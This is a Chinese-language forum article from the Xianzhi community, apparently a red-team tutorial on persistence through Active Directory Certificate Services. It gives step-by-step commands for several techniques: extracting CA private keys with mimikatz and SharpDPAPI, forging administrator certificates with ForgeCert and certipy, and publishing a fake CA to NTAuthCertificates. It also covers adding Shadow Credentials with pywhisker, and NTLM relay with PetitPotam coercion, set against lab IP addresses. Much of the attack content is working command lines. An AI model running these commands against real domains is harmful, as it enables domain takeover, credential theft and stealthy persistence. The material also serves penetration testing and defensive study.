# ADCS攻击指北-权限维持-先知社区

> **来源**: https://xz.aliyun.com/news/17312  
> **文章ID**: 17312

---

# 权限维持

## 黄金证书

### 提取CA

要提取 CA 证书及其私钥，可以使用 CA 服务器上的 certsrv.msc 备份整个 CA。









除了使用CA备份之外还有其他的方式可以提取私钥，下面使用mimkatz来提取



```
privilege::debug
crypto::capi
crypto::certificates /systemstore:local_machine /store:my /export
```

之后就会导出证书，这里导出了2个证书，要注意看subject和issuer为一致的才是我们CA的私钥





这样就成功提取出来了私钥，SharpDPAPI 也能提取出来

```
SharpDPAPI.exe certificates /machine
```



这里也是要注意issuer和subject要一致，然后将这个私钥复制保存成pem，之后要转换成pfx文件，他下面有给出命令







然后输入密码就会生成一个pfx文件，再通过以上方式获取到私钥之后，就可以通过ForgeCert进行生成证书

### 证书生成

```
ForgeCert.exe --CaCertPath cert.pfx --CaCertPassword "123456" --Subject "CN=User" --SubjectAltName "Administrator@attack.com" --NewCertPath Administrator.pfx  --NewCertPassword "123456"
```



之后便会生成出一个administrator的证书文件，之后就可以用rubeus获取TGT或者用SChannel进行身份验证

### 请求证书

```
Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:123456 /ptt
```



没有设置智能卡，可以用Schannel去认证

​

## 白银证书

### 添加权限

需要对NTAuthCertificates进行权限设置



也可以通过powershell来添加

```
$user = Get-ADuser stu1
$dn="AD:CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mylab,DC=local"
$acl = Get-Acl $dn
$sid = $user.SID
$acl.AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule $sid,"GenericAll","ALLOW",([GUID]("00000000-0000-0000-0000-000000000000")).guid,"All",([GUID]("00000000-0000-0000-0000-000000000000")).guid))
Set-Acl $dn $acl
(get-acl -path $dn).access
```

如果不添加则无法添加自签CA



### 自签证书

上面配置了stu1用户可以控制NTAuthCertificates之后，需要创建一个假的自签，用openssl

```
#generate a private key for signing certificates:
openssl genrsa -out myfakeca.key 2048
#create and self sign the root certificate:
openssl req -x509 -new -nodes -key myfakeca.key -sha256 -days 1024 -out myfakeca.crt
```

在自签的时候会要求输入很多信息，只需要输入Common Name，其他为空即可



之后通过certutil添加创建的假CA

```
certutil -dspublish -f myfakeca.crt ntauthca
```





查看属性发现添加成功，还需要生成对应的pfx文件(密码为空直接回车)

```
cat myfakeca.key > myfakeca.pem
cat myfakeca.crt >> myfakeca.pem
openssl pkcs12 -in myfakeca.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out myfakeca.pfx
```



创建好之后，需要在DC上将假CA添加到受信任的颁发证书机构中



修改之后注册表中NTAuthCertificates 的属性需要一些时间去更新才能同步，通过certutil手动更新

```
//注册表内容
HKLM\SOFTWARE\Microsoft\EnterpriseCertificates\NTAuth\Certificates
//更新缓存
certutil -enterprise -addstore ntauth myfakeca.crt
```



最后需要在linux下创建一个ca.conf文件用于请求证书吊销列表 (CRL)

```
[ca]
default_ca = MYFAKECA
[crl_ext] 
authorityKeyIdentifier=keyid:always 
[MYFAKECA]
unique_subject = no
certificate = ./myfakeca.crt
database = ./certindex
private_key = ./myfakeca.key
serial = ./certserial
default_days = 729
default_md = sha1
policy = myca_policy
new_certs_dir = /root/桌面/sliver_ca/
x509_extensions = myca_extensions
crlnumber = ./crlnumber
default_crl_days = 729
[myca_policy]
commonName = supplied
stateOrProvinceName = supplied
countryName = optional
emailAddress = optional
organizationName = supplied
organizationalUnitName = optional
[myca_extensions]
basicConstraints = CA:false
subjectKeyIdentifier = hash
authorityKeyIdentifier = keyid:always
keyUsage = digitalSignature,keyEncipherment
extendedKeyUsage = serverAuth
crlDistributionPoints = URI:http://192.168.3.140/root.crl
```

接着用命令去生成一些必要的文件

```
openssl genrsa -out cert.key 2048
#ensure that common name is different from your fake CA
openssl req -new -key cert.key -out cert.csr
touch certindex
echo 01 > certserial
echo 01 > crlnumber
openssl ca -batch -config ca.conf -notext -in cert.csr -out cert.crt
openssl pkcs12 -export -out cert.p12 -inkey cert.key -in cert.crt -chain -CAfile myfakeca.crt
openssl ca -config ca.conf -gencrl -keyfile myfakeca.key -cert myfakeca.crt -out rt.crl.pem
openssl crl -inform PEM -in rt.crl.pem -outform DER -out root.crl
```







最后再开启一个web服务，用于certipy请求本地的CRL文件



### 请求证书

使用certipy来请求，成功请求到管理员的hash

```
certipy forge -ca-pfx myfakeca.pfx -upn administrator@attack.com -subject 'CN=Administrator,DC=attack,DC=com' -crl 'http://192.168.3.140/root.crl'

certipy auth -pfx administrator_forged.pfx -dc-ip 192.168.3.135
```



​

## Shadow Credentials

### pywhisker

通过工具修改msDS-KeyCredentialLink属性进行权限维持，这里用pywhisker来进行操作(server>=2016)

```
python3 pywhisker.py -d "redteam.com" -u "administrator" -p "xxx" --target "DC01$" --action "add" --filename DC01
//对域控机器账户进行攻击，生成证书
```



获取的证书就可以用rubeus等方法进行PTT

​

### NTLMRealy强制认证

通过NTLM Relay To LDAP/LDAPs 来为客户端设置 msDS-KeyCredentialLink。

在 KB957097 补丁中，修改 SMB 身份验证答复的验证方式，防止了同一机器从 SMB 协议到 SMB 协议的中继。因此，在这里我们将 --shadow-target 的目标设为了辅域

```
python3 ntlmrelayx.py -t ldap://192.168.3.133 --remove-mic --shadow-credentials --shadow-target DC02$
```



接着用PetitPotam强制DC02$向攻击机发起NTLM认证

```
python3 PetitPotam.py -u 'xxx' -p 'xxx' 192.168.3.140 192.168.3.134
```



之后查看一下ntlmrealy结果，发现成功添加了msDS-KeyCredentialLink，并且给出了后续的命令

